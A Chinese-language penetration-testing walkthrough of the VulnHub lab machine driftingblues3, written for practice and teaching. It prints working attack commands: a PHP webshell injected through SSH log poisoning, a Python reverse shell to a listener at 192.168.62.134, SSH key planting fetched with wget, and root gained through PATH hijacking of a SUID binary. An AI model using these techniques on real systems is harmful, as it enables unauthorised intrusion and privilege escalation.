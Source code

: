 ```yaml
---
title: driftingblues3 VulnHub Walkthrough
date: 2021-10-13 17:09:41
categories:
- 渗透测试
tags:
- VulnHub
---
```


### 信息收集

#### 主机发现

```
arp-scan -l
```

![](https://i.loli.net/2021/10/13/gbHz2QBdPq1Fr5m.png)

#### 端口扫描

```
nmap -sC -sV -p- 192.168.62.173 
```

![](https://i.loli.net/2021/10/13/dyUSqGQHbJYXtcP.png)

只开放了22和80端口，先访问80端口看看

![](https://i.loli.net/2021/10/13/v23PbJpqjdwMiXl.png)

好像没有什么信息，扫一下目录

```
dirsearch -u http://192.168.62.173/
```

![](https://i.loli.net/2021/10/13/QvTbR73iftpaIZY.png)

有点奇怪，逐个看了一下，好像都是没用的信息

![](https://i.loli.net/2021/10/13/DcIX8Bov5bh4KlS.png)

再看看robots.txt，是唯一有用的路径

![](https://i.loli.net/2021/10/13/Z97ixT5SKCVjzuy.png)

接着访问一下

![](https://i.loli.net/2021/10/13/RnyvEz1OImLurMZ.png)

emmm再接再厉，继续访问

![](https://i.loli.net/2021/10/13/dWAkgJ5BQLy81OI.png)

好像是诗歌还是歌词，目前没有什么信息，查看一下源码

![](https://i.loli.net/2021/10/13/hV3pdTlWcbvkABE.png)

base64编码，到在线网站转换一下

<img src="https://i.loli.net/2021/10/13/8EgkBodRq1YjAOH.png" style="zoom: 67%;" />

哎，还要再转换一次

<img src="https://i.loli.net/2021/10/13/KC1QoRcmuTqG4fE.png" style="zoom:67%;" />

提示了一个php文件，去访问一下

![](https://i.loli.net/2021/10/13/JPCuhSeUZXnOkRq.png)

### 漏洞发现

这个php文件是应该ssh登录日志，先随便尝试一下登录，看会不会有记录

![](https://i.loli.net/2021/10/13/nFKbN5to2rTjSHa.png)

可以看到两个登录用户名都已经记录了，那接下来就尝试通过日志写shell

![](https://i.loli.net/2021/10/13/UXd7Z2kRHJmP8cu.png)

### 漏洞利用&getshell

以php的webshell作为用户名来登录ssh

```
ssh '<?php system($_GET["cmd"]);?>'@192.168.62.173
```

![](https://i.loli.net/2021/10/13/VQBO5Tumo1YRdLN.png)

看一下效果，看到已经可以执行命令了

![](https://i.loli.net/2021/10/13/hEsStkQvywi58UL.png)

#### 反弹shell

先看一下有没有python环境

![](https://i.loli.net/2021/10/13/JajMB9ytKZoHbur.png)

可以看到，靶机是有python3环境的，那就试试python来反弹shell

先开启一个监听端口来接收反弹的shell

![](https://i.loli.net/2021/10/13/e6KnGq2tVahXDj3.png)

访问一下

```
http://192.168.62.173/adminsfixit.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.62.134%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)%27
```

在本机已经接收到了shell

![](https://i.loli.net/2021/10/13/i1go6kHnBwEvKqZ.png)

#### SSH登录

进入到/home/robertj目录，发现.ssh是有写权限的，那我们就可以将我们的公钥写进去，实现免密登录

先在本地生成公私钥

```
ssh-keygen	#一直回默认就可以
```

<img src="https://i.loli.net/2021/10/13/uRrKZvgWmeOd2wz.png" style="zoom:80%;" />

进入本地ssh目录，查看一下id_rsa.pub

![](https://i.loli.net/2021/10/13/86VYpyWAalHc1I3.png)

将id_rsa.pub的内容复制到authorized_keys

```
cat id_rsa.pub >> authorized_keys
```

然后上传到靶机的ssh目录，先在本机用python开启一个http服务

```
python3 -m http.server 80
```

![](https://i.loli.net/2021/10/13/McPewFdQo6hHbUx.png)

到靶机的ssh目录通过wget下载

```
wget http://192.168.62.134/authorized_keys
```

![](https://i.loli.net/2021/10/13/Gj84pDCxswU3HM5.png)

现在可以实现ssh免密登录了

![](https://i.loli.net/2021/10/13/IhaoP4B9NQnbAKF.png)

先获取第一个flag

<img src="https://i.loli.net/2021/10/13/KzHwX46Zqn2ux51.png" style="zoom:67%;" />

### 权限提升

先看一下具有suid的可执行文件

```
find / -perm -u=s -type f 2>/dev/null
```

![](https://i.loli.net/2021/10/13/K9mLIjMbpYq5Du2.png)

看到有一个getinfo命令，先执行一下看看

<img src="https://i.loli.net/2021/10/13/JMgydKAf6sW3wYE.png"  />

看着应该是分别执行了ip a、cat /etc/hosts、uname -a命令

那么执行具有suid的getinfo时，将会执行ip、cat、uname，那我们就可以写一个模拟可执行文件

这里我在tmp目录新建一个文件ip，并赋予执行权限

```
echo "/bin/bash" > /tmp/ip
chmod +x /tmp/ip
```

![](https://i.loli.net/2021/10/13/vGzTbRejQkKW7NB.png)

最后，添加一个环境变量/tmp，这样再执行一次具有suid的getinfo时，就会以root权限执行我们新建的/tmp/ip，我们就可以提权到root了

```
export PATH=/tmp:$PATH
/usr/bin/getinfo
```

![](https://i.loli.net/2021/10/13/jafxOrYPwXck6SQ.png)

现在可以获取第二个flag了

<img src="https://i.loli.net/2021/10/13/N6vYROXlgVuKbWU.png" style="zoom:67%;" />

